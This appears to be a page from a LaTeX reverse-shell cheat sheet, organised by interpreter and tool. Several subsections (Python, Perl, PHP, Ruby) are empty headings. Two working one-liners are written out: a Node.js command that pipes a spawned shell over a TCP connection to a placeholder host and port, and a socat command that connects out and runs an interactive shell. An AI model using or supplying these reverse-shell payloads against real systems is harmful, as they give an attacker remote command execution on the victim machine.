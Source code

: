 \section{Programming languages interpreters}

\subsection{Python}

\subsection{Perl}

\subsection{PHP}

\subsection{Ruby}

\subsection{Node.js (\texttt{node})}

\begin{cmdline}{bash}{|}{node}{}
node -e 'shell = require("child_process").spawn("|\shell|"); require("net").connect(|\port|, "|\host|", function () { this.pipe(shell.stdin); shell.stdout.pipe(this); shell.stderr.pipe(this); })'
\end{cmdline}

\section{Other tools}

\subsection{Socat (\texttt{socat})}

\begin{cmdline}{bash}{|}{socat}{}
socat tcp-connect:|\host|:|\port| exec:|\shell|,pty,stderr,setsid,sigint,sane
\end{cmdline}

